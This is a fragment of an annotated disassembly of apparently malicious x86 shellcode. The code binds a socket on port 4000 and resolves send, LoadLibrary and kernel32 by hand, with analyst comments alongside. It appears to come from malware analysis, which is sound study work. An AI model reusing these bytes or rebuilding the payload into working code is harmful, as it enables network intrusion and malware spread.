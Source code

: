 <span style="color:maroon">seg000:00000127 </span>51                                <span style="color:navy">push    ecx</span>
<span style="color:maroon">seg000:00000128 </span>51                                <span style="color:navy">push    ecx</span>
<span style="color:maroon">seg000:00000129 </span>51                                <span style="color:navy">push    ecx</span>             ; sin.sin_addr.s_addr = INADDR_ANY
<span style="color:maroon">seg000:0000012A </span>81 E9 FE FF F0 5F                 <span style="color:navy">sub     ecx</span><span style="color:navy">, </span><span style="color:green">5FF0FFFEh</span>  ; 0xa00f0002
<span style="color:maroon">seg000:00000130 </span>51                                <span style="color:navy">push    ecx</span>             ; sin.sin_family = AF_INET
<span style="color:maroon">seg000:00000130                                                           </span>; sin.sin_port = htons(4000)
<span style="color:maroon">seg000:00000131 </span>89 E1                             <span style="color:navy">mov     ecx</span><span style="color:navy">, esp</span>
<span style="color:maroon">seg000:00000133 </span>6A 10                             <span style="color:navy">push    </span><span style="color:green">10h</span>             ; sizeof(struct sockaddr)
<span style="color:maroon">seg000:00000135 </span>51                                <span style="color:navy">push    ecx</span>             ; &amp;sin
<span style="color:maroon">seg000:00000136 </span>56                                <span style="color:navy">push    esi</span>             ; s
<span style="color:maroon">seg000:00000137 </span>FF D0                             <span style="color:navy">call    eax</span>             ; bind()
<span style="color:maroon">seg000:00000139 </span>31 C9                             <span style="color:navy">xor     ecx</span><span style="color:navy">, ecx</span>
<span style="color:maroon">seg000:0000013B </span>66 B9 74 6F                       <span style="color:navy">mov     cx</span><span style="color:navy">, </span><span style="color:green">6F74h</span>       ; to
<span style="color:maroon">seg000:0000013F </span>51                                <span style="color:navy">push    ecx</span>
<span style="color:maroon">seg000:00000140 </span>68 73 65 6E 64                    <span style="color:navy">push    </span><span style="color:green">646E6573h</span>       ; send
<span style="color:maroon">seg000:00000145 </span>54                                <span style="color:navy">push    esp</span>
<span style="color:maroon">seg000:00000146 </span>53                                <span style="color:navy">push    ebx</span>
<span style="color:maroon">seg000:00000147                                   </span><span style="color:navy">db      </span><span style="color:green">3Eh
</span><span style="color:maroon">seg000:00000147 </span>3E FF 15 98 40 0D+                <span style="color:navy">call    dword ptr ds:</span><span style="color:green">5E0D4098h</span> ; Probably GetProcAddress
<span style="color:maroon">seg000:0000014E </span>89 C3                             <span style="color:navy">mov     ebx</span><span style="color:navy">, eax</span>
<span style="color:maroon">seg000:00000150 </span>83 C4 3C                          <span style="color:navy">add     esp</span><span style="color:navy">, </span><span style="color:green">3Ch</span>
<span style="color:maroon">seg000:00000153
</span><span style="color:maroon">seg000:00000153                   </span><span style="color:navy">loc_153:                                </span><span style="color:green">; CODE XREF: seg000:000002A2j
</span><span style="color:maroon">seg000:00000153 </span>31 C9                             <span style="color:navy">xor     ecx</span><span style="color:navy">, ecx</span>
<span style="color:maroon">seg000:00000155 </span>51                                <span style="color:navy">push    ecx</span>
<span style="color:maroon">seg000:00000156 </span>68 65 6C 33 32                    <span style="color:navy">push    </span><span style="color:green">32336C65h</span>       ; el32
<span style="color:maroon">seg000:0000015B </span>68 6B 65 72 6E                    <span style="color:navy">push    </span><span style="color:green">6E72656Bh</span>       ; kern
<span style="color:maroon">seg000:00000160 </span>54                                <span style="color:navy">push    esp</span>
<span style="color:maroon">seg000:00000161                                   </span><span style="color:navy">db      </span><span style="color:green">3Eh
</span><span style="color:maroon">seg000:00000161 </span>3E FF 15 9C 40 0D+                <span style="color:navy">call    dword ptr ds:</span><span style="color:green">5E0D409Ch</span> ; Probably LoadLibrary